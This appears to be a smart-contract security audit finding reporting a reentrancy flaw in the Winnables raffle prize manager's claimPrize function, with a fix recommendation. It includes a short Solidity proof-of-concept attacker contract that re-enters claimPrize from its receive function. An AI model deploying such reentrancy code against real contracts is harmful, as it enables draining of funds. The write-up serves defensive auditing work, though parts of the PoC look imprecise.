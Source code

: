 Virtual Ebony Cricket

High

# Reenterncy in `WinnablesPrizeManager::claimPrize`

## Summary

The `claimPrize` function in the `WinnablesPrizeManager` contract is vulnerable to a reentrancy attack because it updates prize status after making external calls, and lacks reentrancy protection. This could allow an attacker to repeatedly call the function and disrupt prize claiming.

## Vulnerability Detail
The `claimPrize` function processes different types of prizes (NFTs, tokens, and ETH) based on the `raffleType`. It performs several operations and makes external calls to send prizes:

- NFT Prizes: Calls `_sendNFTPrize` after unlocking the NFT.
- Token Prizes: Calls `_sendTokenPrize` after adjusting token balances.
- ETH Prizes: Calls `_sendETHPrize` after adjusting ETH balances.

The check for winner and `rafflePrize.status` is getting update after sending the prize, This ordering allows an attacker to exploit the function by re-entering `claimPrize` before the initial transaction completes.

An attacker can deploy a malicious contract that re-enters the `claimPrize` function during prize transfers, potentially draining funds or claiming multiple prizes.

#### POC 
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IWinnablesTicket {
    function claimPrize(uint256 raffleId) external;
}

contract MaliciousContract {
    IWinnablesTicket public targetContract;
    uint256 public raffleId;

    // Constructor to initialize the target contract and raffle ID
    constructor(address _targetContract, uint256 _raffleId) {
        targetContract = IWinnablesTicket(_targetContract);
        raffleId = _raffleId;
    }

    // Function to start the attack
    function attack() external {
        targetContract.claimPrize(raffleId);
    }

    // Fallback function to re-enter the target contract
    receive() external payable {
        if (address(targetContract).balance > 0) {
            targetContract.claimPrize(raffleId);
        }
    }
}

```


## Impact
Attackers could exploit this vulnerability to claim multiple prizes or drain funds by repeatedly calling `claimPrize` before the initial call completes.

## Code Snippet
[WinnablesPrizeManager::claimPrize](https://github.com/sherlock-audit/2024-08-winnables-raffles/blob/main/public-contracts/contracts/WinnablesPrizeManager.sol#L105)

## Tool used

Manual Review

## Recommendation

 Consider implementing a reentrancy guard or follow CEI (Checks Effects Interactions) pattern
